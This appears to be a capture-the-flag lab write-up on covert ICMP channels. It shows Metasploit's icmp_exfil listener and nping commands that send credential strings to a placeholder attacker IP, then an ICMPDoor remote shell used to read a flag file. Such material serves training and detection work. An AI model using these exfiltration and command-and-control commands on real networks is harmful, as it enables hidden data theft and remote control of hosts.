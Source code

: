 # Exfiltration using ICMP

## ICMP Data Exfiltration

Use Metasploit `auxiliary/server/icmp_exfil`:

    # msfconsole
    msf6 > use auxiliary/server/icmp_exfil
    msf6 auxiliary(server/icmp_exfil) > options
    
    Module options (auxiliary/server/icmp_exfil):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       BPF_FILTER       icmp             yes       BFP format filter to listen for
       END_TRIGGER      ^EOF             yes       Trigger for end of file
       FNAME_IN_PACKET  true             yes       Filename presented in first pac
                                                   ket straight after START_TRIGGE
                                                   R
       INTERFACE                         no        The name of the interface
       RESP_CONT        OK               yes       Data ro resond when continuatio
                                                   n of data expected
       RESP_END         COMPLETE         yes       Data to response when EOF recei
                                                   ved and data saved
       RESP_START       SEND             yes       Data to respond when initial tr
                                                   igger matches
       START_TRIGGER    ^BOF             yes       Trigger for beginning of file

Set options: 

    msf6 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src <IP attack machine>
    BPF_FILTER => icmp and not src <IP attack machine>
    msf6 auxiliary(server/icmp_exfil) > set INTERFACE tun0

In another terminal, go into the icmp box and start the transmission:

    thm@jump-box$ ssh thm@icmp.thm.com
    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "BOFfile.txt"

Send the data:

    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "admin:password"
    
    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "admin2:password2"

End the transmission:

    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "EOF"

Results:

    msf6 auxiliary(server/icmp_exfil) > run
        
    [*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
    [*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
    [+] Beginning capture of "file.txt" data
    [*] 30 bytes of data received in total
    [+] End of File received. Saving "file.txt" to loot
    [+] Incoming file "file.txt" saved to loot
    [+] Loot filename: /path/to/loot/filename.txt

## ICMP C2 Communication

Using the [ICMPDoor](https://github.com/krabelize/icmpdoor) tool.

On icmp host:

    thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133

On jump host:

    thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
    [sudo] password for thm:
    shell: hostname
    hostname
    shell: icmp-host

Get the flag:

    shell: getFlag
    getFlag
    shell: [+] Check the flag: /tmp/flag.txt
    
    shell: cat /tmp/flag.txt
    cat /tmp/flag.txt